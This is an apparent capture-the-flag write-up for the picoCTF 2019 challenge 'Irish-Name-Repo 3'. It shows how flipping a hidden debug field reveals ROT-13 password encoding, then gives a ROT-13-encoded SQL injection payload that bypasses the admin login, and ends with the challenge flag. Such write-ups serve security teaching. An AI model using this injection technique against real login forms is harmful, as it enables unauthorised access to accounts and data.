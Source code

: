 ## Irish-Name-Repo 3 (400)

#### Description
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!

#### Hint
> Seems like the password is encrypted.

#### Solution
View-source the login-page, we will see a hidden field name "debug" with the value "0". So we edit it into "1" and send the password "abcdef{}". We got this:

```html
password: abcdef{}
SQL query: SELECT * FROM admin where password = 'nopqrs{}'
```
So, `abcdef{}` -> `nopgrs{}`. That is exactly ROT-13 cipher.
We need payload `' or 1=1 -- -`, so we will inject `' be 1=1 -- -`.

#### Flag
`picoCTF{3v3n_m0r3_SQL_ef7eac2f}`